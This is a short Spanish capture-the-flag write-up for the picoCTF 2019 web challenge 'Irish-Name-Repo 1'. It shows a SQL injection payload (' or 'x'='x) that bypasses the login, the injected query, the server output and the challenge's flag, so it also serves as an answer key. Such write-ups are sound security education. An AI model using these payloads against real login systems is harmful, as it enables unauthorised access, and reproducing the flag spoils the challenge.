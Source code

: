 # Irish-Name-Repo 1
#pico2019 #WEB_EXPLOITATION 
## Objetivo
There is a website running at `https://jupiter.challenges.picoctf.org/problem/39720/` ([link](https://jupiter.challenges.picoctf.org/problem/39720/)) or http://jupiter.challenges.picoctf.org:39720. Do you think you can log us in? Try to see if you can login!
## Solución
Nos encontramos con una pagina web que funciona como galería de imagenes para el publico en general, existe un menú para entrar al sitio como administrador.
Al investigar el código fuente del login nos encontramos con un campo oculto que sirve como debugger, este debugger sirve para mostrar como se arma la sentencia SQL que verifica si el usuario dado existe en la base de datos.
Al introducir el siguiemte payload de SQL obtenemos la bandera `' or 'x'='x`.

```php
<pre>username: ' or 'x'='x
password: ' or 'x'='x
SQL query: SELECT * FROM users WHERE name='' or 'x'='x' AND password='' or 'x'='x'
</pre><h1>Logged in!</h1><p>Your flag is: picoCTF{s0m3_SQL_c218b685}</p>
```

==picoCTF{s0m3_SQL_c218b685}==
## Notas adicionales

## Referencias